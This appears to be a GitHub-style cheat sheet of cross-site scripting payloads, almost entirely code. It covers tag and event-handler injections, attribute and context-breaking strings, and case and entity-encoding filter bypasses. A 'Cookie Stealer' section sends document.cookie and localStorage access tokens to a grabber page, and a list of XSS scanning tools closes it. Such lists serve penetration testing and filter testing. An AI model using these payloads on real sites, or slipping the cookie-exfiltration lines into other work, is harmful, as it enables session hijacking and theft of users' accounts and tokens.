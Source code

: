 ### Basic Tag PAYLOADS
```
<script>prompt(1)</script>
<script onload="alert(1)"></script>
<script onerror="confirm(1)"></script>
```

### Image Tag Payloads
```html
<img src=x onerror="alert(1)">
<img src=x onerror="confirm(1)">
<img src=x onerror="prompt(1)">
<img onload="alert(1)" src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7">
<img onclick="alert(1)" src=x>
<img onmouseover="confirm(1)" src=x>
<img onfocus="prompt(1)" src=x tabindex=1>
```

### SVG Tag Payloads
```html
<svg onload="alert(1)">
<svg onerror="confirm(1)">
<svg onclick="prompt(1)">
<svg onmouseover="alert(1)"><rect width="100" height="100"/></svg>
<svg onfocus="confirm(1)" tabindex=1>
<svg onresize="prompt(1)">
```

### Iframe Payloads
```html
<iframe src="javascript:alert(1)">
<iframe src="javascript:confirm(1)">
<iframe src="javascript:prompt(1)">
<iframe onload="alert(1)" src="about:blank">
<iframe onerror="confirm(1)" src=x>
```

### Form and Input Payloads
```html
<form onsubmit="alert(1)"><input type=submit>
<form onsubmit="confirm(1)"><input type=submit>
<input onfocus="alert(1)" autofocus>
<input onblur="confirm(1)" autofocus>
<input onchange="prompt(1)" value="test">
<input onkeydown="alert(1)" autofocus>
<input onclick="confirm(1)" type=button value="Click">
```

### Video and Audio Payloads
```html
<video onload="alert(1)" controls>
<video onerror="confirm(1)" src=x>
<video onclick="prompt(1)" poster=x>
<audio onload="alert(1)" controls>
<audio onerror="confirm(1)" src=x>
<audio oncanplay="alert(1)" src="data:audio/wav;base64,UklGRnoGAABXQVZFZm10IBAAAAABAAEAQB8AAEAfAAABAAgAZGF0YQoGAACBhYqFbF1fdJivrJBhNjVgodDbq2EcBj">
```

### Object and Embed Payloads
```html
<object onerror="alert(1)" data=x>
<object onclick="confirm(1)" data="data:text/html,<script>prompt(1)</script>">
<embed src=x onerror="alert(1)">
<embed onclick="confirm(1)" src="javascript:alert(1)">
```

## Advanced Combination Payloads
### Multi-Event Combinations
```html
<img src=x onerror="alert(1)" onclick="confirm(1)" onmouseover="prompt(1)">
<svg onload="alert(1)" onclick="confirm(1)"><rect onmouseover="prompt(1)" width="100" height="100"/></svg>
<input onfocus="alert(1)" onblur="confirm(1)" onchange="prompt(1)" autofocus>
```

### Attribute Injection Payloads
```html
" onclick="alert(1)" "
' onmouseover="confirm(1)" '
"> <script>prompt(1)</script> <"
' onfocus="alert(1)" autofocus '
"onload="confirm(1)"
```

### Event Handler Variations
```html
<body onload="alert(1)">
<body onresize="confirm(1)">
<div onclick="prompt(1)">Click me</div>
<button onmouseover="alert(1)">Hover</button>
<textarea onfocus="confirm(1)" autofocus></textarea>
<select onchange="prompt(1)"><option>1</option><option>2</option></select>
```

### Context-Breaking Payloads
```html
</script><script>alert(1)</script>
"></script><svg onload="confirm(1)">
'><img src=x onerror="prompt(1)">
</title><script>alert(1)</script>
</textarea><script>confirm(1)</script>
```

## Filter Bypass Variations
### Case Variation and Obfuscation
```html
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x ONERROR="confirm(1)">
<svg/onload="prompt(1)">
<img src=x onerror=alert(1)>
<iframe src=javascript:confirm(1)>
```

### Encoding Variations
```html
<script>alert&#40;1&#41;</script>
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
<svg onload="&#99;&#111;&#110;&#102;&#105;&#114;&#109;&#40;&#49;&#41;">
```

### Cookie Stealer

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

### Tools

Most tools are also suitable for blind XSS attacks:

- [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
- [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
- [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
- [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
- [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester
